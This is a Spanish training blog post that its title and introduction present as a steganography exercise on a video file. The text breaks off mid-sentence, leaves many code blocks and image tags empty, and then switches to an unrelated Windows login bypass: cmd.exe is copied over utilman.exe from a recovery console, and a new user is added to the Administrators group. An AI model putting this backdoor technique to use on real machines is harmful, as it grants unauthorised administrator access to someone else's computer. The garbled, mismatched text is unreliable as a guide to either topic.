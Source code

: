 ```yaml
---
title: MTD - Esteganografía
published: true
categories: [Linux]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Dificil]
---
```



¡Hola! 
Vamos a realizar un ejercicio de esteganografía. En el tendremos que descifrar un contenido de una imagen, en este caso un vídeo.

## HERRAMIENTAS UTILIZADAS
* BINWALK
* CEWL
* JONTHERIPPER
* ESOTERIC DESENCRYPT



* * *

## PRIMEROS PASOS
En primer lugar visualizaremos el vídeo que vamos a analizar en este caso el nombre de nuestro archivo será `350911.avi`.
Como podemos observar el direc


<video controls width="640" height="360">
  <source src="/assets/HTB/Esteganografia/350911.avi" type="video/x-msvideo">
  Tu navegador no soporta el elemento de vídeo.
</video>

<img src="/assets/HTB/Android">



<img src="/assets/HTB/Android/">

<img src="/assets/HTB/Android/">
<img src="/assets/HTB/Android/">
<img src="/assets/HTB/Android/">

* 

* * * 

# DENTRO DE LA TERMINAL


```bash 

```



```bash
DISKPART>
```

<img src="/assets/HTB/Android/">

* 

```bash
DISKPART> 
```



```bash
X:> c:
```


```bash
C:> cd System32
```

```
C:\Windows\System32> move utilman.exe utilman.exe.bak
```

```bash
C:\Windows\System32> copy cmd.exe utilman.exe
```

Seguido de ello escribiremos el comando 

```bash
C:\Windows\System32> Wpeutil reboot
```


<img src="/assets/HTB/Android/">



```bash
C:\Windows\System32> net user "Nombre de usuario que quieras" /add
```

* 

```bash
C:\Windows\System32> net localgroup
```

```bash
C:
```
* 

`net localgroup Administradores Marin /add`


# DENTRO DE NUESTRO SISTEMA OPERATIVO


1. 
2. 
3. 
4. c





* * *

*__Esto es un trabajo realizado para MasterD con fines didácticos, no está enseñado para otro de sus usos.__*
